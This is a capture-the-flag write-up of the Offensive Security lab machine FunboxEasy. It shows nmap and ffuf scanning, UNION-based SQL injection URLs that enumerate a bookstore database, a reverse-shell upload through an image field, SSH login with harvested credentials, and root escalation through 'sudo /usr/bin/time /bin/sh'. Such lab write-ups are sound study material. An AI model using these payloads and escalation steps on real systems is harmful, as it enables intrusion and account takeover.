 ```yaml
---
tags: time, lxd, sqli
---
```

# Offsec PG: FunboxEasy

***Overview**: The FunboxEasy machine is a Linux machine rated as easy on Offensive Security playgrounds, it exploits file upload vulnerability to gain foothold using a reverse shell and then elevates privileges to root by exploiting the time binary.*

#### Scanning and Enumeration
- so going to the site I'm presented with the default Apache page
![](FunboxEasy_assets/Pasted%20image%2020221028181118.png)
- then i scan for open ports and services using nmap `nmap -sV -sC -T4 -A -p- 192.168.55.111`
![](FunboxEasy_assets/Pasted%20image%2020221028194556.png)
- Then I scan for directories using FFUF as usual :) `ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://192.168.82.111/FUZZ -e .txt,.php`
- I found the /store directory and also a /secret directory and others as well like an admin login page
![](FunboxEasy_assets/Pasted%20image%2020221028181202.png)
![](FunboxEasy_assets/Pasted%20image%2020221028181330.png)
![](FunboxEasy_assets/Pasted%20image%2020221028181341.png)
- in the store admin login, i tried logging in with admin and any password and i got authenticated
![](FunboxEasy_assets/Pasted%20image%2020221028183637.png)
- then i was presented with the page which showed different boo
![](FunboxEasy_assets/Pasted%20image%2020221028183737.png)
- I tried testing for SQL injection and saw that the application was vulnerable
![](FunboxEasy_assets/Pasted%20image%2020221028184250.png)
- I was able to find out that 7 columns were being used in the page using the payload `http://192.168.55.111/store/book.php?bookisbn=978-1-49192-706-9%27+ORDER+BY+7--+`
- then i also saw the columns being displayed on the page `http://192.168.55.111/store/book.php?bookisbn=0%27+UNION+SELECT+1,2,3,4,5,6,7--+`
![](FunboxEasy_assets/Pasted%20image%2020221028184912.png)
- I check for the version as well and i saw it is running ubuntu
`http://192.168.55.111/store/book.php?bookisbn=0%27+UNION+SELECT+@@version,2,3,4,5,6,7--+`
![](FunboxEasy_assets/Pasted%20image%2020221028185054.png)
- I tried enumerating further by checking the table sin the database using the payload `http://192.168.55.111/store/book.php?bookisbn=0%27+UNION+SELECT+table_name,2,3,4,5,6,7+from+information_schema.tables--+` and i got ADMINISTRABLE_ROLE_AUTHORIZATIONS
![](FunboxEasy_assets/Pasted%20image%2020221028185146.png)
- then i checked for the columns in that table using `http://192.168.55.111/store/book.php?bookisbn=0%27+UNION+SELECT+column_name,2,3,4,5,6,7+from+information_schema.columns+where+table_name=%27ADMINISTRABLE_ROLE_AUTHORIZATIONS%27--+` and i got GRANTEE
![](FunboxEasy_assets/Pasted%20image%2020221028185507.png)
- but trying to go even further i was met with a dead end
- so I decided to check the robots.txt directory and i found the gym directory, which was also found in the directory scan.
![](FunboxEasy_assets/Pasted%20image%2020221028194008.png)
#### File upload and Foothold
- going back to the logged in session and try to edit one of the books, then for images i tried to upload my reverse shell script to see if i can get a reverse shell
![](FunboxEasy_assets/Pasted%20image%2020221028202318.png)
- then knowing the images arebeing stored in the bootstrap directory, i go to the my script
![](FunboxEasy_assets/Pasted%20image%2020221028201206.png)
- after setting up my netcat listener, i then click on the script
![](FunboxEasy_assets/Pasted%20image%2020221028202512.png)
- and then i get  a reverse shell
![](FunboxEasy_assets/Pasted%20image%2020221028202645.png)
- viewing the current directory i discover the credentials for different accounts
![](FunboxEasy_assets/Pasted%20image%2020221028202823.png)
- i was able to login to the admin page using admin and asdfghjklXXX as the password, but i didn't find anything useful there
![](FunboxEasy_assets/Pasted%20image%2020221028211216.png)
- i was also able to login using the ssh credentials found i.e tony as username and password as yxcvbnmYYY
![](FunboxEasy_assets/Pasted%20image%2020221028203036.png)
#### Privilege Escalation
- I went on to find privilege escalation vectors since i didn't see the first flag in the current directory.
- running `sudo -l` i was able to find some binaries that can be run with sudo privileges and without password, but i decided to exploit the time binary
![](FunboxEasy_assets/Pasted%20image%2020221028205659.png)
- i also checked the id of the current user and also found some more interesting escalation vectors like `lxd`
![](FunboxEasy_assets/Pasted%20image%2020221028203550.png)
- so exploit the time binary i ran `sudo /usr/bin/time /bin/sh` and i got root access and got the root flag
![](FunboxEasy_assets/Pasted%20image%2020221028205636.png)
- then searching for the text files using  `find / -name *.txt`, i was able to find the first flag as well
![](FunboxEasy_assets/Pasted%20image%2020221028212951.png)
![](FunboxEasy_assets/Pasted%20image%2020221028213329.png)

 Thank you so much for reading my writeup, see you next time :)



